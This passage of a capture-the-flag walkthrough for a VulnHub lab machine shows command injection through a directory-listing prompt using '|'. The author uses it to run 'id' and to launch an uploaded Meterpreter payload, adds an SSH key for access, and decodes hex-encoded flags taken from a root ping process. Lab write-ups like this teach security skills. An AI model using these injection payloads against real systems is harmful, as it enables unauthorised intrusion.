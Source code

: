With option 2 we are able to list any directory and it's also the only option accepting additional user input:

```
Please Select: 2

Enter dir to list: /home/vulnhub/
total 4
-rw-r--r-- 1 root root 37 Sep 26 16:59 flag3
```

So maybe we can inject some commands here? After trying out various ways I noticed it is possible to execute commands with the `|` character:

```
Enter dir to list: / | id
uid=1000(vulnhub) gid=1000(vulnhub) groups=1000(vulnhub)
```

Let's start the previously uploaded `meterpreter` again and watch a new connection coming in as the user `vulnhub`:

```
Enter dir to list: / | /tmp/meterpreter
```

Now we can get the next flag:

```
cat flag3
flag3{n3x7_71m3_54n17153_y0ur_1npu7}
```

We can again add our SSH key to the user to get a better way to look at the machine.

# flag0

After examining the output of `ps faux` there is a `ping` command running as `root`:

```
root      1046  0.0  0.1  17976  1480 ?        S    20:08   0:00 /bin/bash /root/ping.sh 2
root      5463  0.0  0.0   6500   632 ?        S    21:44   0:00  \_ ping -c 1 -b 192.168.56.255 -p 725f796f755f6265636f6d655f746865 2
```

Decoding the data as hex reveals

```
>>> "725f796f755f6265636f6d655f746865".decode("hex")
'r_you_become_the'
```

So this looks like the part of our flag. After looking at the process list again we can see the data portion of the ping command changes regularly.

After extracting all values manually we can decode the last flag:

```
666c6167307b7468655f717569657465
725f796f755f6265636f6d655f746865
5f6d6f72655f796f755f6172655f6162
6c655f746f5f686561727d

>>> "666c6167307b7468655f717569657465725f796f755f6265636f6d655f7468655f6d6f72655f796f755f6172655f61626c655f746f5f686561727d".decode("hex")
'flag0{the_quieter_you_become_the_more_you_are_able_to_hear}'
```
